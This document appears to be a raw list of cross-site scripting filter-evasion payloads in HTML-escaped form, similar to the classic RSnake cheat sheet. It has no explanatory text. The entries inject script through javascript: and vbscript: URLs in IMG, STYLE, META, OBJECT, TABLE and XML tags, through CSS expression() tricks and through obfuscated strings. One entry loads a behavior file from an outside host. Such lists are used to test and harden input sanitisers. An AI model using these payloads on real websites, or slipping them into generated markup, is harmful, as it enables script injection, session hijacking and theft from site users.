 &lt;IMG SRC=javascript:alert(&apos;XSS&apos;)&gt;

&lt;IMG DYNSRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;IMG LOWSRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;

exp/*&lt;XSS STYLE=&apos;no\xss:noxss(&quot;*//*&quot;);

&lt;STYLE&gt;li {list-style-image: url(&quot;javascript:alert(&#39;XSS&#39;)&quot;);}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS

&lt;IMG SRC=&apos;vbscript:msgbox(&quot;XSS&quot;)&apos;&gt;

&lt;META HTTP-EQUIV=&quot;refresh&quot; CONTENT=&quot;0;url=javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;META HTTP-EQUIV=&quot;refresh&quot; CONTENT=&quot;0; URL=http://;URL=javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389&gt;&lt;param name=url value=javascript:alert(&apos;XSS&apos;)&gt;&lt;/OBJECT&gt;

a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);

&lt;STYLE TYPE=&quot;text/javascript&quot;&gt;alert(&apos;XSS&apos;);&lt;/STYLE&gt;

&lt;IMG STYLE=&quot;xss:expr/*XSS*/ession(alert(&apos;XSS&apos;))&quot;&gt;

&lt;XSS STYLE=&quot;xss:expression(alert(&apos;XSS&apos;))&quot;&gt;

&lt;STYLE&gt;.XSS{background-image:url(&quot;javascript:alert(&apos;XSS&apos;)&quot;);}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;

&lt;STYLE type=&quot;text/css&quot;&gt;BODY{background:url(&quot;javascript:alert(&apos;XSS&apos;)&quot;)}&lt;/STYLE&gt;

&lt;LINK REL=&quot;stylesheet&quot; HREF=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;TABLE BACKGROUND=&quot;javascript:alert(&apos;XSS&apos;)&quot;&gt;&lt;/TABLE&gt;

&lt;TABLE&gt;&lt;TD BACKGROUND=&quot;javascript:alert(&apos;XSS&apos;)&quot;&gt;&lt;/TD&gt;&lt;/TABLE&gt;

&lt;XML ID=I&gt;&lt;X&gt;&lt;C&gt;&lt;![CDATA[&lt;IMG SRC=&quot;javas]]&gt;&lt;![CDATA[cript:alert(&apos;XSS&apos;);&quot;&gt;]]&gt;

&lt;XML ID=&quot;xss&quot;&gt;&lt;I&gt;&lt;B&gt;&lt;IMG SRC=&quot;javas&lt;!-- --&gt;cript:alert(&apos;XSS&apos;)&quot;&gt;&lt;/B&gt;&lt;/I&gt;&lt;/XML&gt;

&lt;META HTTP-EQUIV=&quot;Set-Cookie&quot; Content=&quot;USERID=&lt;SCRIPT&gt;alert(&apos;XSS&apos;)&lt;/SCRIPT&gt;&quot;&gt;

&lt;XSS STYLE=&quot;behavior: url(http://ha.ckers.org/xss.htc);&quot;&gt;

&lt;BR SIZE=&quot;&amp;{alert(&apos;XSS&apos;)}&quot;&gt;

&lt;IMG SRC=JaVaScRiPt:alert(&apos;XSS&apos;)&gt;

&lt;IMG SRC=javascript:alert(&amp;quot;XSS&amp;quot;)&gt;

&lt;IMG SRC=`javascript:alert(&quot;RSnake says, &apos;XSS&apos;&quot;)`&gt;

